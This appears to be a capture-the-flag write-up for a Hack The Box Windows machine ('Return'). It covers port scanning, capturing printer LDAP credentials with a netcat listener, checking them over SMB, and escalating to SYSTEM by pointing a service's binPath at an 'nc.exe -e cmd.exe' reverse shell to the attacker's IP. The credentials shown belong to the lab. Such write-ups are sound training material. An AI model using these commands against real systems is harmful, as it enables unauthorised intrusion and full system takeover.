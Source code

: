 # Return

---

## Enumeration

- nmap:

```
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
80/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-11-12 12:14:05Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 19m08s
| smb2-time: 
|   date: 2022-11-12T12:14:15
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
```

- AD Domain: return.local

### Web

- A web server to configure printer device
- Started a nc listener to impersonate an LDAP server to see what's the printer trying to say

---

## Foothold

```zsh
└─$ nc -lvnp 389                      
listening on [any] 389 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.108] 61112
0*`%return\svc-printer�
                       1edFg43012!!

```

- Got printer creds: `svc-printer:1edFg43012!!`

```zsh
crackmapexec smb -u svc-printer -p '1edFg43012!!' --shares $IP
SMB         10.10.11.108    445    PRINTER          [*] Windows 10.0 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
SMB         10.10.11.108    445    PRINTER          [+] return.local\svc-printer:1edFg43012!! 
SMB         10.10.11.108    445    PRINTER          [+] Enumerated shares
SMB         10.10.11.108    445    PRINTER          Share           Permissions     Remark
SMB         10.10.11.108    445    PRINTER          -----           -----------     ------
SMB         10.10.11.108    445    PRINTER          ADMIN$          READ            Remote Admin
SMB         10.10.11.108    445    PRINTER          C$              READ,WRITE      Default share
SMB         10.10.11.108    445    PRINTER          IPC$            READ            Remote IPC
SMB         10.10.11.108    445    PRINTER          NETLOGON        READ            Logon server share 
SMB         10.10.11.108    445    PRINTER          SYSVOL          READ            Logon server share
```

- used `evil-winrm` to login in as user svc-printer

---

# Privesc 

- svc-printer is a member of server operators: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators

- This group can start and stop services!

```
*Evil-WinRM* PS C:\Users\svc-printer\Downloads> sc.exe config vss binPath="C:\Users\svc-printer\Downloads\nc.exe -e cmd.exe 10.10.16.2 9000"
[SC] ChangeServiceConfig SUCCESS

-- sc.exe start vss
```

```zsh
└─$ nc -lvnp 9000                            
listening on [any] 9000 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.108] 64280
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```

---
